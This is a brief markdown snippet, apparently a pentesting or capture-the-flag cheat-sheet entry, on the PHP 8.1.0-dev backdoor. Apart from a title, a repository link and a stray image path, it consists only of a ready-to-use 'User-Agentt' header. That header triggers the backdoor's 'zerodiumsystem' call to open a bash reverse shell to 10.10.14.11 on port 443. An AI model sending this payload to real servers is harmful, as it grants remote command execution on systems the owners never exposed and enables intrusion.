

_____
# PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution

https://github.com/flast101/php-8.1.0-dev-backdoor-rce



```
User-Agentt: zerodiumsystem('bash -c "bash -i >& /dev/tcp/10.10.14.11/443 0>&1"');
```
